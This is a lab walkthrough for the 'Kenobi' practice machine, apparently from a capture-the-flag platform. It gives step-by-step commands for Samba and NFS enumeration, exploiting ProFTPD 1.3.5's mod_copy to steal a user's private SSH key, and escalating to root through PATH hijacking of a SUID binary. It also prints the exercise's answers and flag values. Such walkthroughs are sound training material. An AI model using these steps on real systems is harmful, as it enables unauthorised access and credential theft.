 # Kenobi

> Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

<br>

### Process

1. Scan machine to find open ports:
   - `nmap -T4 10.10.151.195`
   - number of ports open = **7**
2. Enumerate Samba shares
   - > Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.
   - > Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.
   - enumerate SMB shares with nmap:
     - `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.151.195`
     - number of shares found = **3**
   - inspect SMB shares with Linux smbclient:
     - `smbclient //10.10.151.195/anonymous` -> [no password]
     - list files: `ls` -- files found = **log.txt**
   - recursively download the SMB file share:
     - `smbget -R smb://10.10.151.195/anonymous` -> [no password]
     - open file share: `cat log.txt` -- port FTP is running on = **21**
3. Find out where filesystems are mounted:
   - > nmap port scan showed port 111 running the service rpcbind (a server that converts remote procedure call (RPC) program number into universal addresses). When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.
   - you can use nmap to access the network file system through this service:
     - `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.151.195`
     - found mount = **/var**
4. Gain initial access to ProFtpd:
   - > ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. It has also been vulnerable in the past software versions.
   - use netcat to connect to the machine on the FTP port:
     - `nc -v 10.10.151.195 21`
     - found version of ProFtpd running = **1.3.5**
   - search for possible exploits using searchsploit (a command line search tool for exploit-db.com):
     - `searchsploit proftpd 1.3.5`
     - possible exploits found = **3**
     - using [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html) exploit
     - > mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.
   - FTP service is running at the Kenobi user and an SSH key is generated for that user. So copy Kenobi's private key using SITE CPFR and SITE CPTO commands:
       - `nc -v 10.10.151.195 21` -> `SITE CPFR /home/kenobi/.ssh/id_rsa` -> `SITE CPTO /var/tmp/id_rsa`
       - check key exists (with SITE CPFR) and then copy it to the previously discovered mounted directory ("/var") under the "/var/tmp" directory
    - mount the "/var/tmp" directory to attack machine:
       - `mkdir /mnt/kenobiNFS` -> `mount 10.10.151.195:/var /mnt/kenobiNFS` -> `ls -la /mnt/kenobiNFS`
    - copy Kenobi account's private SSH key to home directory and use to login to the target machine:
       - `cp /mnt/kenobiNFS/tmp/id_rsa .` -> `sudo chmod 600 id_rsa` -> `ssh -i id_rsa kenobi@10.10.151.195`
       - Kenobi's user flag = **d0b0f3f53b6caa532a83915e19224899**
5. Escalate privileges with path variable manipulation:
   - > SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues as they are executed with teh permissions of the file owner (not current user).
   - search the system for SUID files:
     - `find / -perm -u=s -type f 2>/dev/null`
       - or could SCP a privilege escalation script to machine because you have SSH login credentials (the id_rsa identity file)
         - i.e. `scp -i id_rsa linpeas.sh kenobi@10.10.151.195:/tmp`
     - file that looks out of the ordinary = **/usr/bin/menu**
     - running the binary shows number of options = **3**
   - run `strings` against the binary:
     - `strings /usr/bin/menu`
     - found that it runs binaries without the full path (i.e. `curl` instead of `/usr/bin/curl`) and as this binary runs as root you can manipulate the path variable to gain a root shell:
       - `cd /tmp && echo /bin/sh > curl` -> `chmod 777 curl` -> `export PATH=/tmp:$PATH`
       - copy the "/bin/sh" shell into a file called "curl", give it the correct permissions, and then put its location in the path variable so that running "/usr/bin/menu" will use our "curl" binary and instead run "/bin/sh" with root privileges
   - get root shell: `/usr/bin/menu`
   - root flag = **177b3cd8562289f37382721c28381f02**
